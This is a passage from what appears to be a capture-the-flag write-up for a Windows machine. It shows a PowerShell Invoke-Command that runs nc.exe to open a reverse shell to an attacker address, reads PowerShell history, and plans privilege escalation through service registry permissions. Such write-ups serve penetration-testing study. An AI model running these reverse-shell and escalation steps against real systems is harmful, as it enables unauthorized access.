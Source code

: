 - Let's get a reverse shell
```
PS C:\inetpub\wwwroot> Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { \programdata\nc.exe 10.10.16.9 7777 -e cmd }
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { \programdata\nc.exe 10.10.16.9 7777 -e cmd }
```

![](./images/15.png)

## Root
- I'll run [PrivescCheck](https://github.com/itm4n/PrivescCheck)

![](./images/16.png)

- We could've saw it from `Powershell History`
  - First will list the services
  - Second will list the permissions
```
PS C:\programdata> cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
```
```

```
- We have 237 `SERVICES > Registry Permissions`
  - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions
  - We need to look for a service registry with `LocalSystem`
```
```
